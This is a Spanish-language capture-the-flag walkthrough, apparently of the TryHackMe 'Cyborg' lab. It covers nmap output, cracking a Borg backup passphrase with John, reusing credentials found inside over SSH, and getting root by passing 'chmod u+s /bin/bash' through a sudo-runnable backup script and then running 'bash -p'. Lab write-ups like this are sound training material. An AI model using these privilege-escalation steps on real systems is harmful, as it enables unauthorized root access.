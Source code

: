 ### nmap 
```python
Nmap scan report for 10.10.154.71
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.84 seconds
```

### Ports:
```c
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### en la pagina podemos encontrar archivos de configuracion que podemos descargar

![[Pasted image 20231107222735.png]]
descargamos esto para echar un vistazo.
### parece que estamos ante un repositorio. debemos descargarlo configurarlo y montarlo para saber que hay dentro.

### instalacion
```java
	sudo apt install borgbackup   
```
### montamos el directorio de la siguiente manera:
```python
borg mount /home/kali/Desktop/thm/Cyborg/home/field/dev/final_archive /home/kali/Desktop/thm/Cyborg/repository
```
al montar el directorio nos pide una clave la cual buscaremos con john.

![[Pasted image 20231107231024.png]]
buscaremos la clave en el archivo que conseguimos en la pagina llamado passwd utilizaremos john para intentar sacar la clave
![[Pasted image 20231107231157.png]]
### clave
```c
squidward
```

### al montar el repositorio navegamos entre las carpetas y conseguimos algo interesante:
![[Pasted image 20231107232642.png]]
### Credenciales:
```c
alex : S3cretP@s3
```
conseguimos lo que parece ser credenciales del usuario alex. vamos a mirar el pueto 22 SSH las credenciales de alex que hemos conseguido
![[Pasted image 20231107233123.png]]
### escalar privilegios: ejecutamos sudo -l 
![[Pasted image 20231108001114.png]]
parece que todo los usuarios tienen todos los permisos sobre /etc/mp3/backups/backup.sh
vamos hacer un cat para ver que hace este archivo
![[Pasted image 20231108001510.png]]
![[Pasted image 20231108001557.png]]

### parece que el la primera parte del script define una flag y la llama c y al final del script le dice que cmd=$( $ command) 

al parecer todo lo que le indiquemos al script con la flag -c sera igual a comandos ejecutados por cmd. asi que usaremos esto para llamar una bash como root con el siguiente codigo.

llamamos al scritp como sudo de la siguiente forma.
```python
	sudo /etc/mp3backups/backup.sh 
```
llamamos la bandera c y aprovecharemos esto para darle permisos a la bash como usuario root. para despues llamarla. de la siguiente manera.
```python
	sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```
### hacemos bash -p
![[Pasted image 20231108002744.png]]
### hemos cambiado los permisos de la bash para que se ejecute como sudo y cuando hacemos bash -p nos da una bash como root
